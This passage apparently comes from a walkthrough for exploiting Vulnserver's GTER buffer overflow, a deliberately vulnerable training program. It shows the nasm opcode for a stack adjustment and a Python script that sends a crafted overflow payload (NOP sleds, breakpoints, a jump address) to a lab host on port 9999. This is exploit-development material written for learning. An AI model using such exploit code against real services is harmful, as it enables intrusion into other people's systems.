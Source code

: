 Here we can see that the ESP value is decreasing for each push instruction which is not good, because at one point we will be overwriting our payload and EIP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-7.png">
</div>

To avoid this, lets ```manually decrease the ESP value``` for better usage

Generating opcodes for that,

```c
nasm > sub esp, 0x70
00000000  83EC70            sub esp,byte +0x70
```

Lets test this now,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat esp-adjustment.py    
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=stack_adjustment
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 esp-adjustment.py  
```

After running this, we can see that our ESP is far way from the EIP and we can use this to run other operations to perform socket reusing
